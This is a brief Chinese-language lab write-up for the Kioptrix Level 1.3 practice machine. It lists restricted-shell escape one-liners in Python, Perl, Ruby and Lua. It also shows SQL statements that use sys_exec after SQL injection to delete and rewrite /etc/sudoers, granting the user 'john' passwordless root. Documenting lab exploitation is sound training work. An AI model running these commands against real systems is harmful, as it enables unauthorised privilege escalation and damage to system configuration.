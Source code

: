 # KIOPTRIX LEVEL 1.3 (#4)

```
python -c 'import pty; pty.spawn ("/bin/sh")'
echo os.system ('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute ('/bin/sh')
exec "/bin/sh"
```

先贴上一些常用的从受限制shell逃逸的命令，大部分命令是利用主机上安装的脚本语言，来运行一些命令执行的函数，如python的os.system()，lua的os.exec()函数，利用函数运行/bin/bash或/bin/sh等shell应用，切换到无限制shell。

```
select sys_exec('rm -r /etc/sudoers');
select sys_exec('chmod 0440 /etc/sudoers');
select sys_exec('echo "john ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers');
```

sql注入获得数据库权限，利用自建函数，sys_exec 将用户john加入超级用户文件sudoers![image-20230208170613569](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208170613569.png)

![image-20230208170506879](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208170506879.png)

![image-20230208170458827](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208170458827.png)

![image-20230208170728394](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208170728394.png)
